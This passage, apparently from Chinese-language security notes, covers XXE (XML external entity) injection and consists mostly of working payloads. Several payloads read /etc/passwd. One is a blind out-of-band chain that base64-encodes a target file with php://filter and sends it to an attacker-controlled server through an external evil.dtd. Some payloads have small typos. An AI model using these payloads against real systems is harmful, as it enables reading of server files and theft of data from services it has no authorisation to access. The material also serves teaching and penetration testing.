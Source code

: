 远程服务器的evil.dtd文件内容:
```xml
<!ENTITY b SYSTEM "file:///etc/passwd">
```

##### blind 3:
可以使用外带数据通道提取数据，先使用php://filter获取目标文件的内容

然后将内容以http请求发送到接受数据的服务器(攻击服务器)xxx.xxx.xxx。

```xml
<?xml version=”1.0”?>
<!DOCTYPE ANY [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./target.php"> # /etc/issue
<!ENTITY % dtd SYSTEM "http://xxx.xxx.xxx/evil.dtd">
%dtd;
%send;
]>
```

evil.dtd的内容，内部的%号要进行实体编码成&#x25。
```xml
<!ENTITY % all
“<!ENTITY &#x25; send SYSTEM ‘http://xxx.xxx.xxx/?%file;’>”
>
%all;
```

有报错直接查看报错信息。

无报错需要访问接受数据的`服务器中的日志信息`，可以看到经过base64编码过的数据，解码后便可以得到数据。


##### 例子
恶意引入外部实体1：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
      <!ENTITY b SYSTEM "file:///etc/passwd">
]>
<aaa>&b;</aaa>
```

恶意引入外部实体2：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
     <!ENTITY % d SYSTEM "http://yourhost/evil.dtd">
     %d;
]>
<aaa>&b;</aaa>
```
DTD文件（evil.dtd）内容：
```xml
<!ENTITY b SYSTEM "file:///etc/passwd">
```
恶意引入外部实体3
```xml
<?xml verstion="1.0" encoding="utf-8"?>
<!DOCTYPE a SYSTEM "http://yourhost/evil.dtd">
]>
<c>&b;</c>
```
DTD文件内容
```xml
<!ENTITY b SYSTEM "file:///etc/passwd">
```
